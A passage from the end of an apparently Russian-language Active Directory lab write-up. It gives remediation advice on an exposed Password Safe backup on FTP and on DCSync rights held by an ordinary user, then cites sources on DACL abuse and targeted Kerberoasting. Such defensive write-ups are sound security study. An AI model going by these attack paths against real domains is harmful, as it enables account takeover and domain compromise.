2. **Защита чувствительных данных**. Стоит помнить, что хранилище учетных данных не является панацеей, тем-более, если база этого хранилища находится на открытом FTP-сервере (`Backup.psafe3`). Если бы в ходе перечисления обнаружить эту базу не удалось, то выполненное перемещение `benjamin` --> `emily` могло не состояться ввиду отсутствия пароля от учетной записи `emily`.
3. **Ограничение прав DCSync**. Права на репликацию должны быть строго ограничены только серверами контроллеров домена. Рядовые учетные записи (`ethan`) не должны иметь к ним доступа. Именно наличие подобного права у пользователя `ethan` привело к полной компрометации всего домена. 

## Источники

1. [:notepad_spiral: Abusing AD-DACL: Generic ALL Permissions от Aarti Singh](https://www.hackingarticles.in/genericall-active-directory-abuse/)
2. [:notepad_spiral: Abusing AD-DACL: ForceChangePassword от Pradnya Pawar](https://www.hackingarticles.in/forcechangepassword-active-directory-abuse/)
3. [:tools: targetedKerberoast.py от Charlie Bromberg](https://github.com/ShutdownRepo/targetedKerberoast)